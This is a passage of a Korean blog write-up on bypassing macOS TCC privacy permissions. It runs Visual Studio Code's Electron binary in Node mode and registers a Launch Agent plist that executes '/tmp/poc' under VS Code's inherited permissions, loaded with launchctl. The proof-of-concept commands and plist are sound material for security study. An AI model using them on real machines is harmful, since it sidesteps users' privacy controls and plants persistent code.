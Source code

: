 
Visual Studio Code 또한 JIT를 제외하면 런타임 내의 프로세스 주입의 모든 방법이 불가능하다.


<br>

1. NodeJS 모드로 실행

{% raw %}
```bash
$ ELECTRON_RUN_AS_NODE=1 /Applications/Visual\ Studio\ Code.app/Contents/MacOS/Electron
Welcome to Node.js v18.17.1.
Type ".help" for more information.
```
{% endraw %}

1. Launch Agent 등록

위에서 설명하였듯이 터미널에서 실행될 경우에는 터미널의 TCC 권한을 상속 받는다.


우리는 Visual Studio Code의 TCC 권한을 원하므로 Launch Agent를 등록해주어야 한다.


Launch Agent는 다음과 같다.


{% raw %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
      <dict>
            <key>Label</key>
            <string>com.poc.launcher</string>
            <key>RunAtLoad</key>
            <true />
            <key>EnvironmentVariables</key>
            <dict>
                  <key>ELECTRON_RUN_AS_NODE</key>
                  <string>true</string>
            </dict>
            <key>ProgramArguments</key>
            <array>
                  <string>/Applications/Visual Studio Code.app/Contents/MacOS/Electron</string>
                  <string>-e</string>
                  <string>require('child_process').execSync('/tmp/poc')</string>
            </array>
      </dict>
</plist>
```
{% endraw %}


다음 명령어를 통해 Launch Agent를 실행해준다.


{% raw %}
```bash
launchctl load com.poc.launcher.plist
```
{% endraw %}
